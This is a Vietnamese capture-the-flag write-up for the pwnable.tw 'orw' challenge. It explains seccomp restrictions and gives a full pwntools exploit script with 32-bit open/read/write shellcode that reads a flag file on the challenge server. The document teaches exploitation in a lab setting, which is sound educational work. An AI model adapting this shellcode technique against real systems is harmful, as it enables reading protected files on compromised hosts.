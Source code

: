 # Seccomp
- Lớp bảo vệ `seccomp` với tác dụng hạn chế lại những `syscall` mà ta có thể sử dụng cho `shellcode` của chúng ta và ta có thể check xem `chall` đấy có bật `seccomp` hay không bằng công cụ `seccomp-tools`.
- Hôm nay ta sẽ thực hành luôn bằng bài trên `pwwable.tw`.
## Thực Hành
### 1. Source
```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  orw_seccomp();
  printf("Give my your shellcode:");
  read(0, &shellcode, 0xC8u);
  ((void (*)(void))shellcode)();
  return 0;
}
```
### 2. Hướng Giải
- Bước đầu ta sẽ check file bằng `seccomp-tools` nhaa:
    ![Alt text](image.png)
    - ta sẽ tận dụng những `syscall` trên để hoàn thành bài này.
    ![Alt text](image-1.png)
    - chall cũng đã hướng dẫn chúng ta try cập thư mục như hình để có thể thu đc flag
    **==> Lưu ý:** với file `32-bit` như chall này thì khi kết thúc 1 `syscall` ta sẽ xài `int 0x80` thay vì `syscall` như file `64-bit`.
    **ví dụ:** ![Alt text](image-2.png)
- Vậy thì ta chỉ cần viết `shellcode` với các `syscall` sau:
    - open : truy cập vào đường dẫn `/home/orw/flag`.
    - read : đọc flag trong file.
    - write hay stdout : in ra flag.
- Trước khi viết source code thì ta có 1 vấn đề phải giải quyết:
    ![Alt text](image-3.png)
    - khi nhập thử thì ta có thể thấy ta đã bị `SIGSEGV` , đối với chall này do khi chạy local ở địa chỉ `0x804a060` chỉ cho read và write thôi chứ không cho phép ta execute nhưng mà trên sever thì lại cho phép vì thế ta phải thay đổi quyền của nó trước khi mà  `orw_seccomp`
    thực thi.
    ![Alt text](image-4.png)
    - ta sễ nhập lệnh sauu `call (int)mprotect(0x804a000,0x1000,7)` làm sao cho địa chỉ phải được căn chỉnh 3 ký tự cuối phải là `000`.
    ![Alt text](image-5.png)
    - sau khi chạy thử thì địa chỉ đó đã được thay đỏi quyền và đc cho phép execute.
- Sau đấy ta chỉ cần viết `shellcode` nối lên sever và thu flag thôi :Đ và source code như sau:
    ![![Alt text](image-7.png)](image-6.png)
- **==> Lưu ý:** ta có thể check các arg của các `syscall` trên web https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86-32_bit
- Giải thích: 
    - ![Alt text](image-8.png)
    - Đây là chuỗi `/home/orw/flag` về dạng số.
    - Và đây là cách chuyển đổi ![Alt text](image-9.png)
    - ![Alt text](image-10.png)
    - còn đây là `open syscall`: với eax là mã = 5 bạn có thể check trên link mình đã gửi ,
    ebx là đường dẫn vì, `shellcode` ta nhập vào `stack` bằng `read` nên ta sẽ set cho ebx = esp , còn 2 arg ta sẽ set NULL.
    - ![Alt text](image-11.png)\
    - đây là `read syscall` : khi thực hiện `open` nó sẽ trả file ở eax cho nên ta sẽ set ebx = eax , ecx sẽ là nơi ta nhập  = esp , edx là số size mà có thể đọc ta sẽ set đại là 0x100, eax sẽ là mã của `read`.
    ![Alt text](image-12.png)
    - và cuối cùng là `write syscall`: với ebx là `stdout` mã cấp quyển cho `write` in ra dữ liệu , còn eax là mã của `write`.
- Sau tất cả chỉ cần nối lên sever và chạy source là thu đc flag thôi.
![Alt text](image-13.png)
- Và thành công rồi `shellcode` của chúng ta đã đúng.
### 3. Source code
```
#!/usr/bin/python3

from pwn import *

exe = ELF('orw', checksec=False)
# libc = ELF('0', checksec=False)
context.binary = exe

def GDB():
        if not args.REMOTE:
                gdb.attach(p, gdbscript='''
                b

                c
                ''')
                input()

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.REMOTE:
        p = remote('chall.pwnable.tw', 10001)
else:
        p = process(exe.path)

GDB()
shellcode = asm(
        '''
        push 26465
        push 1818636151
        push 1919889253
        push 1836017711
        mov eax, 5
        mov ebx, esp
        xor ecx, ecx
        xor edx, edx
        int 0x80
        
        mov ebx, eax
        mov ecx, esp
        mov edx, 0x100
        mov eax, 3
        int 0x80
        
        mov ebx, 1
        mov eax, 4
        int 0x80
        
        ''', arch='i386'
)

sla(b'shellcode:', shellcode)
p.interactive()
```
